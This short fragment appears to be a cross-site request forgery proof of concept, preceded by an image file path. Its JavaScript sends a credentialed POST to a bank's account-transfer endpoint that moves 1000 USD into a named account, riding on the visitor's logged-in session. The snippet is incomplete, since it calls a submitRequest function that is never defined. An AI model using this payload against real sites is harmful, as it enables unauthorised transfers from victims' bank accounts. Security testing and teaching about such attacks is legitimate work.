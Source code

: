 
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/members.bankofdirectdefense.com\/accounts\/transfer", true);
        xhr.setRequestHeader("Content-Type", "application\/json");
        xhr.withCredentials = true;
        xhr.send("{\"from-account\": 1,\"toAccount\": \"021000021-9876543210\",\"amount\": 1000,\"currency\": \"USD\"}");
      submitRequest();
